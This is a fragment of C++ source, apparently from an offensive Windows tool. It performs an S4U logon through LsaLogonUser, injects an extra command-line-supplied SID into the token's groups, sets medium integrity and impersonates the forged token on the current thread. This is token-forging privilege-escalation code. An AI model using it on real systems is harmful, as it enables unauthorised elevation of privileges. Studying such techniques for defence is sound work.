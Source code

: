 ```c++
		pGroups->Groups[pGroups->GroupCount].Attributes = SE_GROUP_ENABLED | SE_GROUP_ENABLED_BY_DEFAULT | SE_GROUP_MANDATORY;
		pGroups->Groups[pGroups->GroupCount].Sid = pLogonSid;
		pGroups->GroupCount++;
	}

	// If an extra SID is specified to command line, add it to the pGroups structure.
	pGroups->Groups[pGroups->GroupCount].Attributes = SE_GROUP_ENABLED | SE_GROUP_ENABLED_BY_DEFAULT | SE_GROUP_MANDATORY;
	pGroups->Groups[pGroups->GroupCount].Sid = pExtraSid;
	pGroups->GroupCount++;

	// Call LSA LsaLogonUser
	// This call required SeTcbPrivilege privilege:
	//    - [1] to get a primary token (vs impersonation token). The privilege MUST be activated.
	//    - [2] to add supplemental SID with LocalGroups parameter.
	//    - [3] to use a username with a domain name different from machine name (or '.').

	status = LsaLogonUser(
		hLSA,
		&OriginName,
		Network,                // Or Batch
		ulAuthenticationPackage,
		pS4uLogon,
		dwMsgS4ULength,
		pGroups,                // LocalGroups
		&TokenSource,           // SourceContext
		&pvProfile,
		&dwProfile,
		&logonId,
		&hTokenS4U,
		&quotaLimits,
		&subStatus
	);
	if (status != STATUS_SUCCESS)
	{
		wprintf(L"[-] LsaLogonUser Error: [0x%x].", status);
		goto Clear;
	}

	wprintf(L"[*] Set the token integrity level to medium.\n");

	TIL.Label.Attributes = SE_GROUP_INTEGRITY;
	TIL.Label.Sid = mediumSID;

	if (!SetTokenInformation(hTokenS4U, TokenIntegrityLevel, &TIL, sizeof(TOKEN_MANDATORY_LABEL) + GetLengthSid(mediumSID)))
	{
		wprintf(L"[-] SetTokenInformation Error: [%u].\n", GetLastError());
	}

	hThread = GetCurrentThread();
	
	if (!SetThreadToken(&hThread, hTokenS4U))
	{
		wprintf(L"[-] SetThreadToken Error: [%u].\n", GetLastError());
	}
	
	wprintf(L"[*] LsaLogonUser successfully and get S4U token: \n\n");

	if (!DisplayTokenInformation(hTokenS4U))
	{
		wprintf(L"[-] Failed to get S4U token information.\n");
```